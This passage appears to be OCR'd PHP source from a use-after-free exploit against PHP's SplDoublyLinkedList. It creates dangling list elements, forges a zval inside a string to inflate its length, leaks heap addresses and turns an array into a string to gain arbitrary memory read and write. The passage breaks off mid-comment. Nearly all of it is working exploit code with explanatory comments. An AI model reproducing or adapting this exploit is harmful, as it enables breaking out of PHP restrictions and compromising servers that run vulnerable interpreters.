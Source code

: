 ```php
        #"print('UAF __destruct: ' . "\n");
        $dlls[NB_DANGLING]->offsetUnset(0);

        # At this point every $dll->current points to the same freed chunk. We allocate
        # that chunk with a string, and fill the zval part
        $fake_dll_element = str_shuffle(str_repeat('A', SIZE_ELEM_STR));
        i2s($fake_dll_element, 0x00, 0x12345678); # ptr
        i2s($fake_dll_element, 0x08, 0x00000004, 7); # type + other stuff

        # Each of these dlls current->next pointers point to the same location,
        # the string we allocated. When calling next(), our fake element becomes
        # the current value, and as such its rc is incremented. Since rc is at
        # the same place as zend_string.len, the length of the string gets bigger,
        # allowing to R/W any part of the following memory
        for($i = 0; $i <= NB_DANGLING; $i++)
            $dlls[$i]->next();

        if(strlen($fake_dll_element) <= SIZE_ELEM_STR)
            die('Exploit failed: fake_dll_element did not increase in size');

        $leaked_str_offsets = [];
        $leaked_str_zval = [];

        # In the memory after our fake element, that we can now read and write,
        # there are lots of zend_string chunks that we allocated. We keep three,
        # and we keep track of their offsets.
        for($offset = SIZE_ELEM_STR + 1; $offset <= strlen($fake_dll_element) - 40; $offset += 40)
        {
            # If we find a string marker, pull it from the string list
            if(s2i($fake_dll_element, $offset + 0x18) == STR_MARKER)
            {
                $leaked_str_offsets[] = $offset;
                $leaked_str_zval[] = $strs[s2i($fake_dll_element, $offset + 0x20)];
                if(count($leaked_str_zval) == 3)
                    break;
            }
        }

        if(count($leaked_str_zval) != 3)
            die('Exploit failed: unable to leak three zend_strings');

        # free the strings, except the three we need
        $strs = null;

        # Leak adress of first chunk
        unset($leaked_str_zval[0]);
        unset($leaked_str_zval[1]);
        unset($leaked_str_zval[2]);
        $first_chunk_addr = s2i($fake_dll_element, $leaked_str_offsets[1]);

        # At this point we have 3 freed chunks of size 40, which we can read/write,
        # and we know their address.
        print('Address of first RW chunk: 0x' . dechex($first_chunk_addr) . "\n");

        # In the third one, we will allocate a DLL element which points to a zend_array
        $rw_dll->push([3]);
        $array_addr = s2i($fake_dll_element, $leaked_str_offsets[2] + 0x18);
        # Change the zval type from zend_object to zend_string
        i2s($fake_dll_element, $leaked_str_offsets[2] + 0x20, 0x00000006);
        if(gettype($rw_dll[0]) != 'string')
            die('Exploit failed: Unable to change zend_array to zend_string');

        # We can now read anything: if we want to read 0x11223300, we make zend_string*
```